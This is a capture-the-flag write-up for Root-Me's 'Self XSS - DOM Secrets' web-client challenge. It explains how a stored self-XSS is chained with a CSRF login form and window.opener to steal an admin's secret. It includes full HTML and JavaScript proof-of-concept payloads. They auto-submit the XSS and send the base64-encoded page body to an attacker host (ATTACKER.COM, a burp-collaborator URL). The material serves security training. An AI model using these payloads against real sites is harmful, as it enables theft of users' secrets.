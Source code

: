 
# Self XSS - DOM Secrets (opener)

Challenge category : WEB-CLIENT\
Difficulty : HARD \
Link : https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets

Statement 
```
A rather simplistic secret management platform has just been released. The application’s security prevents javascript from accessing any secret information. Nevertheless, find a way to obtain the admin’s secret.
```
To solve this challenge we need an external host/domain and we need to know how [opener](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener) and [windows.open()](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) works in JS

As we can see, the username field is vulnerable to html/js injection,
![](./images/1.png)
![](./images/2.png)
![](./images/3.png)
![](./images/4.png)
![](./images/5.png)

but in this case we have a Self XSS because the username is stored in the session cookie, so to trigger an alert to the victim, for example, we would have to have the victim send a post request with the payload in the username \
So in this case we need an external host with an html or php page that crafts the post request for example : 
```html
<html>
<head></head>
<body>

<form id="myForm" method="post" action="http://challenge01.root-me.org:58003/login">
			<input id="username" name="username" value="<script>alert(1)</script>"></input>
            
            <input id="secret" name="secret" value="test_secret"></input>

</form>

<script>
  var form = document.getElementById("myForm");
  form.submit(); 

</script>
</body>
</html>
```
As you can see in the username value is our payload ` <input id="username" name="username" value="<script>alert(1)</script>"></input>`\
If we host this html page and send it to the victim, it will be redirected to `http://challenge01.root-me.org:58003/profile` and an alert will appear \
In this way, we were able to exploit an XSS on the victim, but we cannot read the `secret` because the post request overwrites the session cookie and so the `secret` changes in this case are overwritten by `test_secret` : `<input id="secret" name="secret" value="test_secret"></input>` \

To read the `secret`, we must ensure that the victim has 2 windows open and that window 1 opens window 2 with `window.open()` 
- Window 1 loads the page `/profile` where the correct secret is, and opens window 2 with our post crafted request 
- Window 2 being on the same domain can modify window 1 using opener for example it can redirect window 1 to another host : `opener.location="http://another-host.com"` or trigger an alert `opener.location="javascript:alert(1)"` or exfiltrate the contents of the body to read the secret 
`opener.location="javascript:location='http://ATTACKER.COM/?body='.concat(btoa(document.body.innerHTML))"` 


I used an external host and burp's collaborator, but you can do everything with the external host 

I hosted 2 files on my host: poc.html and poc.js 

poc.html : 
```html
<html>
<head></head>
<body>

<form id="myForm" method="post" action="http://challenge01.root-me.org:58003/login">
			<input id="username" name="username" value="<script src='http://[MY-HOST]/poc.js'></script>"></input>
            
            <input id="secret" name="secret" value="test_secret"></input>

</form>

<script>
function newWindowPost() { //THIS FUNCTION OPEN NEW WINDOW AND MAKE POST REQUEST WITH PAYLOAD IN USERNAME VALUE
  var form = document.getElementById("myForm");
  var newWindow = window.open("http://challenge01.root-me.org:58003/profile", "newWindow", "width=600,height=400");

  if (newWindow) {
    form.target = "newWindow"; 
    form.submit(); 
  } else {
    alert("Popup blocked");
  }
}


newWindowPost();
window.location="http://challenge01.root-me.org:58003/profile"; // redirects the admin to the /profile page with the original session containing secret 

</script>
</body>
</html>
```

poc.js : 
```javascript
try{
opener.location="javascript:location='http://[burp-collaborator].com/?body='.concat(btoa(document.body.innerHTML))";
}
catch{
location='http://[burp-collaborator].com/?fail='
}
```

we can now send the link of our host to the admin via the report section 
![](./images/6.png)

and if all goes well, we should have the contents of the body encoded in base64 on the collaborator 
![](./images/7.png)
![](./images/8.png)

